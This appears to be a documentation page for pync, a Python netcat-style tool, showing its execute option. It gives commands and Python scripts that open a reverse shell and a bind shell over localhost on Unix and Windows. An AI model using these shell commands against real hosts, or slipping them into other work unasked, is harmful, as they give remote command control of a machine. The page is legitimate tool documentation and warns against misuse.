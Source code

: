 ========================
Remote Command Execution
========================

Using the `-e <https://pync.readthedocs.io/en/latest/options/execute.html>`_
option, we can execute a command and have it's i_o
(input/output) connect to Netcat's network socket.

Using this idea, we can create an interactive shell
to execute commands on a remote machine.

.. warning::
   | Please BE CAREFUL with this functionality as it could expose your system to attackers.
   | Also, please DO NOT use this functionality for evil purposes.

A Simple Reverse Shell
======================

1. Create a server that will listen for the reverse shell connection:

.. tab:: Unix

   .. code-block:: sh
   
      pync -l localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -l localhost 8000

.. tab:: Python

   .. code-block:: python
   
      from pync import pync
      pync('-l localhost 8000')

2. On another console, connect back to our server and
   execute the shell:

.. tab:: Unix

   .. code-block:: sh

      pync -e "PS1='$ ' sh -i" localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -e "cmd /q" localhost 8000

.. tab:: Python

   .. code-block:: python

      # reverse_shell.py
      import platform
      from pync import pync

      command = "PS1='$ ' sh -i"
      if platform.system() == 'Windows':
          command = 'cmd /q'

      pync('-e {} localhost 8000'.format(command))

There should now be a prompt on the server console that
allows you to remotely execute commands on the client machine.

A Simple Bind Shell
===================

1. Create a server on port 8000 that executes the shell upon
   connection:

.. tab:: Unix

   .. code-block:: sh

      pync -le "PS1='$ ' sh -i" localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -le "cmd /q" localhost 8000

.. tab:: Python

   .. code-block:: python

      # bind_shell.py
      import platform
      from pync import pync

      command = "PS1='$ ' sh -i"
      if platform.system() == 'Windows':
          command = 'cmd /q'

      pync('-le {} localhost 8000'.format(command))

2. On another console, connect to the server to
   interact with the shell:

.. tab:: Unix

   .. code-block:: sh

      pync localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync localhost 8000

.. tab:: Python

   .. code-block:: python

      from pync import pync
      pync('localhost 8000')

.. raw:: html

   <br>
   <hr>

:SEE ALSO:

* :doc:`../options/execute`
* :doc:`../options/listen`

